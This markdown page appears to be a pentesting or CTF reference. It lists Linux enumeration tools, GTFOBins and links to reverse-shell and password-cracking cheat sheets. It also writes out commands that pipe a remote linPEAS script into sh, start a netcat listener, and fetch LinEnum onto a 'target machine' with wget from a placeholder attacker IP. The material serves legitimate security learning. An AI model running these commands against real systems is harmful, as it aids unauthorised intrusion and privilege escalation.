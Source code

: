 # Ressources

## Local Linux Enumeration

> this section contains tools that are used to find potential attack vectors on a computer.

##### linPEAS :

    https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
> download with ```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```

##### LinEnum :

    https://github.com/rebootuser/LinEnum
> you can also find it [here](/ressources/)

## GTFOBins

BTFOBins is a website you can refer to if you find binaries that can be used to bypass local security restrictions in misconfigured systems.

> just seach the name of the binary in the search bar

    https://gtfobins.github.io/

## Cheat sheets

### Reverse shell :

   ##### PentestMonkey

    https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


   ##### PayloadAllTheThings

    https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

   ##### ironHackers

    https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/


### Nmap :

    https://www.stationx.net/nmap-cheat-sheet/


### GoBuster :

    https://3os.org/penetration-testing/cheatsheets/gobuster-cheatsheet/
    
    
### John The Ripper :

    https://www.golinuxcloud.com/john-the-ripper-password-cracker/
    
    https://cheatsheet.haax.fr/passcracking-hashfiles/john_cheatsheet/
    
    
## Misc

### How do I start a netcat listener ?

```nc -lnvp PORT```

where :
    ```l``` is for "listen mode", ```n```is to not resolve DNS, ```v```is for verbose mode (more text printed), ```p``` to specify the port and ```PORT``` is the port you want to use
    
    
 ### How do I send LinEnum to the target machine ?
  
 - Download the executable from this repo, go the the directory where it's located and type ```python3 -m http.server 1234```
 - Open a terminal on your computer and type ```ifconfig```, find your ip adress.
 - On your target machine, type ```wget http://YourIP:1234/LinEnum.sh```

that's it ! you should have LinEnum on the target machine ;)
          

